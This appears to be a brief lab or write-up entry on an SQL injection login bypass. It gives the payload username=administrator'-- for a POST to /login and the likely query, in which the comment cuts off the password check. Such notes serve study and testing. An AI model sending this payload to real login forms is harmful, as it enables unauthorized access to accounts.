 # SQL injection vulnerability allowing login bypass

SQLi in the ‘username’ body parameter of the POST request to /login.

```http
username=administrator’--
```

The query is likely:

```sql
SELECT * FROM users WHERE username='administrator'--' AND password='password';
```
